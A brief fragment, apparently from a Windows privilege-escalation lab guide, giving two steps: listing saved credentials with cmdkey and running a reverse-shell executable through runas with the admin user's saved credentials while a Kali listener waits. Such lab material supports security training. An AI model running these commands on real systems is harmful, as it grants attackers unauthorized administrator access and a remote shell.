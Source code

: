 List any saved credentials:

	cmdkey /list

Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:

	runas /savecred /user:admin C:\PrivEsc\reverse.exe